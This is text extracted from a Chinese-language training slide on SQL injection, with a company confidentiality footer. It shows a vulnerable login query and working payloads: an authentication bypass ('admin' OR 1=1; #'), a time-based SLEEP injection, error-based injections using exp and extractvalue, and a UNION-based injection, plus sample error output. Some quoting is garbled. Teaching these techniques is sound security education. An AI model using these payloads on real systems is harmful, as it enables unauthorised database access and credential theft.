

# SQL injection
SELECT username, password FROM users WHERE username = '输入的用户名' AND password = '输入的密码';
Select * from xx_table where xx_name = ‘?’;

SELECT username, password FROM users WHERE username = ‘’’ AND password = '输入的密码';
尝试：’
SELECT username, password FROM users WHERE username = ‘admin' OR 1=1; # ' AND password = '输入的密码';
万能密码：admin' OR 1=1; #
SELECT username, password FROM users WHERE username = ‘admin’ AND IF(1=1, SLEEP(5), 0); # AND password = '输入的密码';
时间注入：admin' AND IF(1=1, SLEEP(5), 0); #
Select * from xx_table where xx_name = ‘’’;
REROR: …
尝试：’
Select * from xx_table where xx_name = ‘1’ and exp(~(select database() a)) -- ’ ;
DOUBLE value is out of range in ‘ exp(~’database’) ’a’))’
报错注入：1’ and extractvalue(1,concat(0x7e,SELECT database())) #
Select * from xx_table where xx_name = ‘1’ AND ‘1’=‘0’ UNION SELECT database(); - -’;
联合注入：1’ AND ‘1’=‘0’ UNION SELECT database()#
12/4/2023
Company Confidential  © 2017 Eli Lilly and Company
11